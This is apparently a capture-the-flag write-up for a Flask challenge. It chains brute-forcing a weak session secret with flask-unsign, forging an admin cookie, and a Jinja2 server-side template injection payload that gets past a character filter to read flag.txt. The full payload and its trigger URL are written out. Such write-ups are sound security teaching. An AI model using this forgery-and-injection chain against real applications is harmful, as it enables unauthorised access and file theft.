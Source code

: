 ```python
@login_required
def view(id):
    if (users[current_user.name].verification != V.admin):
        return render_template_string('This feature is still in development, please come back later.')
    content = next((post for post in current_user.posts if id in post), None)
    if not content:
        return render_template_string('Post not found')
    content = content.get(id, '')
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected')
    return render_template_string(f"Post contents here: {content[:250]}")
```

We can see to get to the vulnerable `render_template_string` call, you need to somehow spoof yourself as admin. The secret key is only 20 bits long, which is easily bruteforcable. You can use a tool like `flask-unsign` to get the secret key, then forge a cookie with the username as `admin`.

Next it seems that we have to find some payload shorter than 20 chars, but we can notice even though an error is displayed when it is longer, the post is still created. This means we can create a post with a payload longer than 20 chars, then view it to trigger the `ssti`.

Though the post id is not given, it is easily retreiavable by calculating
```python
post_id = sha256((current_user.name+content).encode()).hexdigest()
```
Lastly we need to bypass the restrictive `INVALID` chars.

We can almost exactly follow the payload given [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars)

However, there is some issues because we don't have access to `\` or `x`.

We can bypass this by just hiding `_`s in the request arguments, and referencing them in the payload.

For example, we can use `request|attr("args")|attr("get")("d")` to get the value of `d` in the request arguments, which we can manually set to an underscore for example.

So our payload ends up looking like 

{% raw %}
```python
{% with a=request|attr("args")|attr("get")("d"),b=request|attr("args")|attr("get")("f")%}{%print(request|attr("application")|attr(a~"globals"~a)|attr(a~"getitem"~a)(a~"builtins"~a)|attr(a~"getitem"~a)("open")(b)|attr("read")())%}{%endwith%}
```
{% endraw %}

And we can view it at `/view/e5c478f7e0ea9f7e6dc8bcd722a3c93c4d849397b2e8c25ff283b95a8aa1eaa7?d=__&f=flag.txt`

{% raw %} 
```python
print(hashlib.sha256(('admin'+'{%with a=request|attr("args")|attr("get")("d"),b=request|attr("args")|attr("get")("f")%}{%print(request|attr("application")|attr(a~"globals"~a)|attr(a~"getitem"~a)(a~"builtins"~a)|attr(a~"getitem"~a)("open")(b)|attr("read")())%}{%endwith%}').encode()).hexdigest())
```
{% endraw %}
Generates the hash.
Viewing our post gives the flag.
